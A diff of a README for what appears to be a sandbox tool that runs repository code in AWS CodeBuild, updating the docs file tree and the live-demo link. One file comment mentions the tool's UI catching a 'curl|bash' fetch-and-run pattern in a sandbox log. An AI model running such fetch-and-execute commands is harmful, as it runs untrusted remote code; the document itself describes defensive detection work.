@@ -304,7 +301,10 @@ repopilot-sandbox-tool/
 │   ├── codebuild-trust.json        # CodeBuild assume-role
 │   └── codebuild-permissions.json  # least-privilege: CloudWatch Logs only
 └── docs/
-    ├── index.html                  # the before/after toggle demo (v1 reads / v2 runs)
+    ├── index.html                  # the real RepoPilot UI with the sandbox tool built in
+    ├── toggle.html                 # the earlier standalone before/after toggle (kept for reference)
+    ├── architecture.png            # how it works: the static read + the new sandbox-tool pipeline
+    ├── ui-hero.png                 # the UI catching a curl|bash in the live sandbox log
     └── replay-data.json            # real recorded run output for the static demo
 ```
 
@@ -361,7 +361,7 @@ No. It is a static replay of real recorded runs, so it makes zero AWS calls.
 ## 🔗 Links
 
 - ▶ Demo video: _YouTube URL (added on publish)_
-- 🖥 Live before/after toggle: https://simplynadaf.github.io/repopilot-sandbox-tool/
+- 🖥 Live demo (the real UI, static replay): https://simplynadaf.github.io/repopilot-sandbox-tool/
 
 ---
 
